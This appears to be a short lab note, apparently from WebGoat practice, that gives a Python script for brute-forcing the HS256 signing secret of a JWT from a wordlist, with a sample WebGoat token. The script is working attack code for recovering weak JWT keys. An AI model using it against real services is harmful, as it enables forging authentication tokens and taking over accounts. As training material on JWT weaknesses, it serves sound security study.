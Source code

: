 







### Javaweb-身份验证attack-JWT密匙爆破attack

```python
import jwt
import json

alg = "HS256"
jwt_str = "eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTY0ODczMzA4MiwiZXhwIjoxNjQ4NzMzMTQyLCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.WxfaEGOXVtxmASeRCqY65Rc0ZWP9XgznQoQtOavUM4U"
with open('pass.txt', encoding='utf-8') as f:
    for line in f:
        key_ = line.strip()
        try:
            jwt.decode(jwt_str, verify=True, key=key_, algorithms="HS256")
            print('found key! --> ' + key_)
            break
        except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError,
               jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError,
               jwt.exceptions.ImmatureSignatureError):
            print('found key! --> ' + key_)
            break
        except jwt.exceptions.InvalidSignatureError:
            continue
    else:
        print("key not found!")

```





![](image40/QQ截图20220331212617.png)
